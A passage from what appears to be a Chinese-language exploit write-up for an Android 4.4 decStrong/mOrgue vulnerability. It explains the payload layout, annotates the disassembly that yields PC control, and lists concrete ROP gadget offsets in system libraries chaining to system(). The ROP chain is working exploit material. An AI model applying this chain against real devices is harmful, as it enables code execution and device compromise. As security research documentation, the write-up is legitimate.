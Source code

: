 
整个payload分为两段：第一段Relative Addresses Chunk(RAC)是很长的一段，用于跳转到第二段；第二段Gadget Buffer(GB)则是用来放gadget的。上图中：

- SA指Static Address，即我们用来设置mOrgue的一个固定的地址
- GBO指Gadget Buffer Offset，指的是GB在payload中的偏移量，也就是第一段的长度
- SAO即Static Address Offset, 为SA相对于payload的偏移量。

根据payload第一段的构造方式，此时SA处的内容为SA+GBO-SAO，正好为GB的实际地址Gadget Buffer Address(GBA)。所以，只要我们的第一段足够大，使得SA落在其中，则[SA]=GBA。

按照decStrong的执行流程，实际执行效果如下。

{% highlight asm %}
.text:0000D15A                 PUSH            {R4-R6,LR}
.text:0000D15C                 MOV             R5, R0 ; r0是this指针，即我们设定的mOrgue的值SA
.text:0000D15E                 LDR             R4, [R0,#4] ; r4 = [r0+4] = [SA+4] = SA+GBO-SAO-4 = GBA-4, 即r4是GB前4 BYTES处。
.text:0000D160                 MOV             R6, R1
.text:0000D162                 MOV             R0, R4
.text:0000D164                 BLX             android_atomic_dec ; 对r4调用android_atomic_dec: 该方法接收一个指针作为参数，将所指内容减1，并将减1前的结果返回
.text:0000D168                 CMP             R0, #1
.text:0000D16A                 BNE             loc_D184 ; 如果android_atomic_dec(r4)==1，即[r4]==1, 则进入下一环节。根据payload的构造，[GBA-4]=1，符合要求
.text:0000D16C                 LDR             R0, [R4,#8] ; r0 = [r4+8] = [GBA-4+8] = [GBA+4]，根据payload的构造，[GBA+4]=SA，即r0 = SA
.text:0000D16E                 MOV             R1, R6
.text:0000D170                 LDR             R3, [R0] ; r3 = [r0] = [SA] = GBA
.text:0000D172                 LDR             R2, [R3,#0xC] ; r2 = [r3+12] = [GBA+12]，即为ROP chain 0
.text:0000D174                 BLX             R2 ; 执行ROP chain 0
{% endhighlight %}

由此，我们实现了控制PC

#### 0x1 ROP chain
控制了PC，接下来就是构造ROP链了。试验的对象是AVD 4.4.2 Google APIs ARM image，我们把`/system/lib/`下一些常用的库拉下来，并按照POC中的ROP链的思路，搜索ROP gadget。不过在使用ROPgadget时，返回大量的gadget，还是需要人工去看哪些是有用。此外，不知道为什么，有些gadget用ROPgadget没搜到，是手工搜索指令找到的。

最后，ROP链构造如下：

{% highlight asm %}
ROP chain 0
libandroid_runtime.so thumb
0x0007bcb2 : ldr r7, [r5] ; ldr r3, [r7, #0x14] ; blx r3

ROP chain 1
libdvm.so thumb
0x00041c12: mov sp, r7; pop [r4-r10, pc]

ROP chain 2
libc.so arm
0x0003c190 : ldr r0, [r0, #0x48] ; pop {r3, pc}

ROP chain 3
libc.so thumb
799: 000246a1   200 FUNC    GLOBAL DEFAULT    8 system
{% endhighlight %}
